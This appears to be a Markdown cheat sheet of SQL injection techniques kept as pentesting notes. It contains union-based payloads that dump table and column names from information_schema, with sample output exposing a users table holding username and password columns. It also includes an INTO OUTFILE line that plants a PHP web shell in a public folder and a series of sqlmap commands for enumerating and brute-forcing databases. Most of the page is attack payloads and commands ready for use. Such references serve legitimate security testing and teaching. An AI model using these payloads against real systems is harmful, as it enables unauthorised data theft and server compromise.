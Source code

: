 # sql injection

## External stuff

[exploit-db](https://www.exploit-db.com/papers/13045/) [ASCII table](https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md)

### Always True

1=1 a=a

### Escape/stop

#### mysql 

```sql
# 
-- 
#--
```

### MySQL Verison

select version\(\)

### information Schema

#### Table names

```sql
SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables
```

#### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
```

```text
dummymalex:dummyms
table_schema = dummymalex
table_name   = dummyms
```

#### Hide stuff we dont need

```sql
AND table_schema != 'information_schema'
```

#### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```

```text
LIMIT 0,1
dummymalex:dummyms 
table_schema = dummymalex
table_name   = dummyms 

LIMIT 1,1 
dummymalex:users     
table_schema = dummymalex
table_name   = users
```

#### column\_name

```sql
SELECT column_schema,column_name FROM information_Schema.columns
```

#### Injection Example 1

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
dummyms

LIMIT 2,1
description
```

#### Injection Example 2

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
username

LIMIT 2,1
password
```

### upload shell with INTO OUTFILE

```sql
select 'SHELLCODE' INTO OUTFILE '/path/to/public/folder/shell.php';
```

## SQLmap

### Simple usage

```
sqlmap -u "http://target_server/"
```

### Set target DBMS to MySQL
```
sqlmap -u "http://target_server/" --dbms=mysql
```

### Use POST requests

```
sqlmap -u "http://target_server/" --data=param1=value1&param2=value2
```

### Use POST request file

```
sqlmap -r request.txt -p [param-to-test]
```

### Batch run

```
sqlmap -r request.txt -p [param-to-test] --Batch
```

### Set Risk/Level

```
sqlmap -r request.txt -p psw --level=5 --risk=3 --dbms mysql --batch
```

### enumerate databases

```
sqlmap -r request.txt --batch --dbs
``` 

### enumerate tables

``` 
sqlmap -r request.txt -batch --tables
``` 

### brute-force tables

```
sqlmap -r request.txt -batch --common-tables
```

### brute-force columns

```
sqlmap -r request.txt -batch -T users --common-column
```